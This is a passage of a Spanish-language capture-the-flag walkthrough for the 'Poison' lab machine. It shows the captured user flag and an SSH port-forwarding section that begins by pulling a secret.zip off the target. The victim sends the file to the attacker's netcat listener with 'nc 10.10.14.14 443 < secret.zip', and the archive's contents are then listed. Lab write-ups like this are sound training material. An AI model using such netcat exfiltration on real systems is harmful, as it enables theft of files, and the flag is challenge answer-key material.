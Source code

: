 ```bash
charix@Poison:~ % 
```

## User flag

```bash
charix@Poison:~ % cat user.txt 
eaacdfb2d141b72a589233063604209c
charix@Poison:~ % 
```

## SSH Port Forwarding 

Si hacemos un `ls` vemos que hay un archivo `zip`

Ahora vamos a pasarnos el `.zip` primero nos ponemos en escucha

```bash
❯ nc -nlvp 443 > secret.zip
Listening on 0.0.0.0 443
```

Ahora lo enviamos

```bash
charix@Poison:~ % nc 10.10.14.14 443 < secret.zip
```

Y lo recibimos

```bash
❯ nc -nlvp 443 > secret.zip
Listening on 0.0.0.0 443
Connection received on 10.129.1.254 54817
```

Vemos que dentro hay un `secret`

```bash
❯ 7z l secret.zip

7-Zip [64] 16.02 : Copyright (c) 1999-2016 Igor Pavlov : 2016-05-21
p7zip Version 16.02 (locale=es_MX.UTF-8,Utf16=on,HugeFiles=on,64 bits,2 CPUs Intel(R) Core(TM) i5-1035G1 CPU @ 1.00GHz (706E5),ASM,AES-NI)

Scanning the drive for archives:
1 file, 166 bytes (1 KiB)

Listing archive: secret.zip

--
Path = secret.zip
Type = zip
Physical Size = 166

   Date      Time    Attr         Size   Compressed  Name
------------------- ----- ------------ ------------  ------------------------
2018-01-24 11:01:14 .R..A            8           20  secret
------------------- ----- ------------ ------------  ------------------------
2018-01-24 11:01:14                  8           20  1 files
```
